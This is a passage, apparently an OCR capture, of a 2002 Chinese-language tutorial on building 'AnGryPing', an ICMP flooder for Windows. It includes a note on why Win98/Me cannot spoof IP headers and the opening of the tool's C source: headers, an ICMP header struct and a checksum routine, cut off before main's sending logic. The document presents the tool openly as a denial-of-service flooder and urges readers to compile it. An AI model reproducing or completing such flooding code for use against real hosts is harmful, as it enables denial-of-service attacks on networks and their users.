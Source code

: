    return (USHORT)(~cksum);
}

4.必须注意的问题
由于Win98/Me系统不支持IP-Spoof，所以无法用setsockopt设置IP_HDRINCL让用户自己填充IP头部，所以Win98 /Me不能实现IP伪造！如果有人做的号称能伪造IP的工具而且又支持Win98/Me，那一定是吹出来的，因为这是系统限制，程序没法解决的。而且自己 填充IP头部后，CheckSum就不是由系统计算了，这时候你的CheckSum计算函数就变成瓶颈了，这就是伪造IP后的Flooder发送速度不够 系统计算CheckSum的Flooder快的原因了，除非优化过CheckSum函数。限于篇幅，采用IP-Spoof技术的FakePing和 Smurf就不讨论了。

5.完整代码
做一个Console Application工程，输入下面的代码。如果优化得当，最终编译生成的EXE也就4096字节而已，呵呵，just do it……


```
agp.c

AnGryPing -- ICMP Flooder by HBU·小金(LK007)
Copyright(C) 2002
E-MAIL:lk007@163.com
*/

#include <stdio.h> 
#include <winsock2.h> 
#include <ws2tcpip.h> 
#pragma comment(lib, "ws2_32.lib")
//头文件和库文件声明，如果不能编译，请在Link里加上ws2_32.lib

#define false 0
#define true 1

#define SEQ 0x28376839

// 定义ICMP首部
typedef struct _ihdr
{
   BYTE i_type; //8位类型
   BYTE i_code; //8位代码
   USHORT i_cksum; //16位校验和
   USHORT i_id; //识别号
   USHORT i_seq; //报文序列号
   ULONG timestamp; //时间戳
}ICMP_HEADER;

//计算校验和的子函数
USHORT checksum(USHORT *buffer, int size)
{
   unsigned long cksum=0;
   while(size >1)
    {
      cksum+=*buffer++;
      size -=sizeof(USHORT);
    }
   if(size )
    {
      cksum += *(UCHAR*)buffer;
    }
   cksum = (cksum >> 16) + (cksum & 0xffff);
   cksum += (cksum >>16);
   return (USHORT)(~cksum);
}

int main(int argc, char **argv)
{
   int datasize,ErrorCode,flag;
   int TimeOut=2000, SendSEQ=0, PacketSize=32,type=8,code=0,counter=0; //默认数据声明
   char SendBuf[65535]={0}; //缓冲
   WSADATA wsaData;
```